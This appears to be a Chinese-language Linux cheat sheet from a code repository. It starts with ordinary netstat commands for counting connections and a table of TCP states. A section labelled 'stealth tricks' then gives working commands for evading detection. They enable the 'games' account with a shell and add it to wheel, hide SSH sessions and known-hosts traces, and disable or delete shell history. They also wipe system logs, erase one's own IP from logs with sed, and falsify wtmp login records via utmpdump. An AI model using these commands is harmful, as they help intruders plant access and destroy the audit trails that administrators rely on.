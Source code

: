 
# 網路檢測

檢視哪些IP連線本機

```bash
netstat -an
```

統計 80 port連線數

```bash
netstat -nat | grep -i "80" | wc -l
```

統計httpd協議連線數

```bash
ps -ef | grep httpd | wc -l
```

統計已連線上的，狀態為established

```bash
netstat -anp | grep ESTABLISHED | wc -l
```

計算每一個 ip 在主機上建立的連線數量

```bash
netstat -ntu | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -n
```

列出每個 ip 建立的 ESTABLISHED 連線數量

```bash
netstat -ntu | grep ESTAB | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -nr
```

列出每個 ip 建立的 80 port連線數量

```bash
netstat -plan|grep :80|awk {'print $5'}|cut -d: -f 1|sort|uniq -c|sort -nk 1
```

查出哪個IP地址連線最多，將其封了

```bash
netstat -anp | grep ESTABLISHED | awk {print $5}|awk -F: {print $1} | sort | uniq -c | sort -r  0n
netstat -anp | grep SYN | awk {print $5}|awk -F: {print $1} | sort | uniq -c | sort -r  0n
```

TCP連線狀態詳解

```txt
LISTEN： 偵聽來自遠方的TCP埠的連線請求
SYN-SENT： 再傳送連線請求後等待匹配的連線請求
SYN-RECEIVED：再收到和傳送一個連線請求後等待對方對連線請求的確認
ESTABLISHED： 代表一個開啟的連線
FIN-WAIT-1： 等待遠端TCP連線中斷請求，或先前的連線中斷請求的確認
FIN-WAIT-2： 從遠端TCP等待連線中斷請求
CLOSE-WAIT： 等待從本地使用者發來的連線中斷請求
CLOSING： 等待遠端TCP對連線中斷的確認
LAST-ACK： 等待原來的發向遠端TCP的連線中斷請求的確認
TIME-WAIT： 等待足夠的時間以確保遠端TCP接收到連線中斷請求的確認
CLOSED： 沒有任何連線狀態
SYN_RECV表示正在等待處理的請求數；
ESTABLISHED表示正常資料傳輸狀態；
TIME_WAIT表示處理完畢，等待超時結束的請求數。
```

sudo vi /etc/passwd
把games打開
games:x:12:100:games:/usr/games:/bin/bash
把games加到wheel跟utmp
usermod -a -G wheel,utmp games

隱身密技

隱藏遠端登入
ssh -T user@host /bin/bash -i

不紀錄ssh公鑰在本地.ssh目錄中
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash -i

清除操作紀錄

1. 編輯 vim~/.bash_history

2. 清除該User紀錄 history -c

3. 清除不想出現的指令 history | grep "part of command you want to remove" 
                   history -d [num]

4. 登入後輸入下面指令 不紀錄指令
export HISTFILE=/dev/null;
export HISTSIZE=0;
export HISTFILESIZE=0

清除系統LOG

1. 通通清除 (很容易被發現, 不優)
echo > /var/log/wtmp //清除User登入紀錄
echo > /var/log/btmp //清除嘗試登入紀錄
echo > /var/log/lastlog //清除最近登入紀錄
echo > /var/log/secure //登入訊息
echo > /var/log/messages
echo > /var/log/syslog //紀錄系统LOG
echo > /var/log/xferlog
echo > /var/log/auth.log
echo > /var/log/user.log
cat /dev/null > /var/adm/sylog
cat /dev/null > /var/log/maillog
cat /dev/null > /var/log/openwebmail.log
cat /dev/null > /var/log/mail.info
echo > /var/run/utmp

2. 替換或刪除部份

删除所有匹配的字串, 比如當天日期或者自己的登入ip
sed  -i '/自己的ip/'d  /var/log/messages

替换登入ip
sed -i 's/192.168.166.85/192.168.1.1/g' secure


```txt
命令    日誌文件            功能
last   |/var/log/wtmp    |所有成功登錄/登出的歷史記錄
lastb  |/var/log/btmp    |登錄失敗嘗試
lastlog|/var/log/lastlog |最近登錄記錄
```

## 修改 wtmp 和 utmp 文件

```txt
第一步:

通過下面指令把二進位文件轉成可編輯文件 wtmp.file

utmpdump /var/log/wtmp > /var/log/wtmp.file

第二步:

編輯/var/log/wtmp.file 刪除部分login紀錄，或修改登錄紀錄

第三步:

文件轉回二進位文件

utmpdump -r < /var/log/wtmp.file > /var/log/wtmp

最後:

修改完成，可用last命令查看修改结果。

總结:

utmp/wtmp文件可用utmpdump 在二進位跟正常可編輯文件做轉換
```




